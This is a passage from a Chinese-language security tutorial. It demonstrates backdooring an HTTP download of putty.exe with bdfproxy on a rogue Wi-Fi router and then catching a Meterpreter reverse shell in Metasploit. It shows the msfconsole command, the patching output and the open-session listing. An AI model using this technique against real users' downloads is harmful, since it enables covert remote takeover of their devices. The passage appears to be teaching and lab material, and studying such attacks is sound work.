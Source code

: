 ```
[*] Creating win32 resume execution stub
[*] Looking for and setting selected shellcode
[*] Patching complete, forwarding to user.
========== END RESPONSE ==========

```

在目标设备通过HTTP下载文件时，您将在bdfproxy中看到拦截下的请求，提示您选择注入的CAVE，这里上面我选择了2，输入2然后回车，目标设备这时成功下载到putty.exe，看上去毫无异样。

[![](http://static.wooyun.org//drops/20150811/2015081103412187770.png)](http://drops.wooyun.org/wp-content/uploads/2015/08/normalvideo.png)

以上截图出自WooyunWifi 2.0的视频，目前版本已经到达3.0，除了功能增强也有一个全新界面了

先不解释发生了什么，我们先来启动Metasploit：

```
root@Alkaid-PC:/usr/share/bdfproxy# msfconsole -r ./bdfproxy_msf_resource.rc 

```

请注意，这里的bdfproxy_msf_resource.rc正是我们上文中设置文件的名称，可能位于/usr/share/bdfproxy下面，如果您自己编译的bdfproxy，那您需要自己找这文件放哪里了

```
[*] Started reverse handler on 192.168.1.163:5555 
[*] Starting the payload handler...
msf exploit(handler) > [*] Sending stage (770048 bytes) to 192.168.1.134
[*] Meterpreter session 1 opened (192.168.1.163:8443 -> 192.168.1.134:57625) at 2015-08-09 14:58:22 +0800

```

可以看到启动时开启了一堆handler等待bdfproxy使用，当目标设备运行putty.exe时，显示Meterpreter session 1 opened，这时已经获取到了目标设备的SHELL

```
msf exploit(handler) > sessions -l

Active sessions
===============

  Id  Type   Information   Connection
  --  ----   -----------   ----------
  1   meterpreter x86/win32  FullMatelErLuLu\OrgeDaLuLu @ FULLMATELERLULU  192.168.1.163:8443 -> 192.168.1.134:57625 (192.168.1.134)

```

具体拿到SHELL之后怎么用，请参阅Metasploit的文档，这里就不细说了

0x03 BDF原理分析
=====

首先，我们来看看我们大概做了一件什么事情：

目标设备->WooyunWifi路由器->安全测试设备（Kali+bdfproxy）->网站

那么发生了什么事情呢？
